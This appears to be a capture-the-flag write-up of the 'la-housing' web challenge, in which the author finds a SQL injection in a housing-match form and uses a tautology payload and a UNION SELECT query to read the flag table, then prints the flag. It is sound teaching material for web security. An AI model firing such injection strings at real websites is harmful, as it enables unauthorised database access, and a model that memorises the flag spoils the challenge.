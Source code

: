 # la-housing

## Overview:

Category: Web

## Description

Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.

Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

la-housing.chall.lac.tf

## Approach

Opening up the website we see:

![Main Page](pictures/mainpage.png)

Based off of this and the program files, which include sql database information and queries, I think we are going to be dealing with sql injection.

Let's see if we can get it.

## Attack

After messing around with the request you get when clicking `Get Matches!`, we come to a sql injection success:

![SQL Injection](pictures/sqlinjection.png)

Here we can see `name=name&guests=No&neatness=Put+things+away+as+we+use+them&sleep=8-10pm&awake=4-6am' OR '1'='1` working for our query, where we can inject some of our own queries here `OR '1'='1`


Now based on the files given to us, we know that the flag is in its own database.

in `data.sql`:
```c
CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',750);
COMMIT;
```

So lets try and use union to grab our flag from the flag database.

After a few tries with different queries, this one `name=name&guests=No&neatness=Put+things+away+as+we+use+them&sleep=8-10pm&awake=4-6am' UNION SELECT 1, *, 3, 4, 5, 6 from 'flag` ended up returning the flag:

![Flag](pictures/flag.png)

Therefore extracting our flag from the sql database!

## Flag

lactf{us3_s4n1t1z3d_1npu7!!!}
